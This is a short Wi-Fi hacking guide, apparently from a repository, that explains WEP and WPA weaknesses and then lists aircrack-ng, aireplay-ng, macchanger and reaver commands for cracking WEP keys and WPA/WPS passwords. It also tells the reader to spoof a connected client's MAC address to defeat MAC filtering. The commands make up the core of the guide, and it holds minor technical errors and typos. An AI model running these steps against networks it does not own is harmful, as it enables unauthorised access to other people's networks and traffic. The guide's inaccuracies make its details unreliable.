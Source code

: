             ***********************************************

                        BT3GL's Hacking Guide

            ***********************************************

Disclaimer: I do not support or endorse any illegal activities! Only test these techniques in your OWN machines and networks.


THEORY:
=======

WEP
---

WEP, or wired equivalent privacy, was the first wireless security scheme employed. As it name implies, it was designed to provide security to the end-user that was essentially equivalent to the privacy that was enjoyed in a wired environment. Unfortunately, it failed miserably.

For a number of reasons, WEP is extraordinarily easy to crack because of a flawed implementation of the RC4 encryption algorithm. It's not unusual to be able to crack WEP in less than 5 minutes. This is because WEP used a very small (24-bit) initialization vector (IV) that could be captured in the datastream, and this IV could then be used to discover the password using statistical techniques.


WPA
---

WPA was the response by the industry to the revealed weaknesses of WEP. It's often referred to as WPA1 to distinguish it from WPA2.

WPA used Temporal Key Integrity Protocol (TKIP) to improve the security of WEP without requiring new hardware. It still uses WEP for encryption, but it makes the statistical attacks used to crack WEP much more difficult and time-consuming.


WPA2-PSK
--------

WPA2-PSK is the implementation of WPA2 for the home or small business user. As the name implies, it's the WPA2 implementation that uses a pre-shared key (PSK). It's this security standard that is used by most households today, and although it's far more secure, it's still vulnerable to various attacks.

A feature that was added in 2007 called Wi-Fi Protected Setup, or WPS, allows us to bypass the security in WP2-PSK .

WPA2-AES
WPA2-AES is the enterprise implementation of WPA2. It uses the Advanced Encryption Standard or AES to encrypt data and is the most secure. It's often coupled with a RADIUS server that is dedicated for authentication.




CRACKING WIFI PASSWORDS:
========================


Cracking WEP
------------
(Success depend on the proximity to the AP point)

1) Change your MAC address:

$ airmon-ng ---> take note of the name of your network interfaces (example wlan0)
$ airmon-ng stop INTERFACENAME
$ ifconfig INTERFACENMAE down
$ macchanger --mac 00:11:22:33:44:55

2) Pick your network (BSSID):

$ airodump-ng INTERFACENAME

3) See what's happening on that network and capture information to a file:

$ airodump-ng -c CHANNEL -W FILENAME --bssid BSSID INTERFACENAME

4) Open a new console and type (where the ESSID is the access point's SSID name):

$ aireplay-ng -1 0 -a BSSID -h 00:11:22:33:44:55 -e ESSID INTERFACE

$ aireplay-ng -3 -b BSSID -h 00:11:22:33:44:55 INTERFACE

5) Once you have collected enough data, launch a third console to crack the data:

$ aircrack-ng -b BSSID FILENAME-01.cap



Cracking WPA
------------

It can take up to 2-6 hours. It can cause DoS attack.
If the router has MAC filtering, use a network monitoring tool to find a MAC address of a system that has a connection to the router, and then set that to the address of the attack platform.

1) Find your wireless card:

$ iwconfig

2) Put your wireless card into monitor mode:

$ airmon-ng start wlan0
or
$ ifconfig wlan0 down
$ iwconfig wlan0 mode monitor
$ ifconfig wlan0 up

3) Find the BSSID of the router to crack:

$ airodump-ng wlan0 --> mon0 if this does not work

4) Crack a Network's WPA password with Reaver:

$ reaver -i mon0 -b BSSID -vv


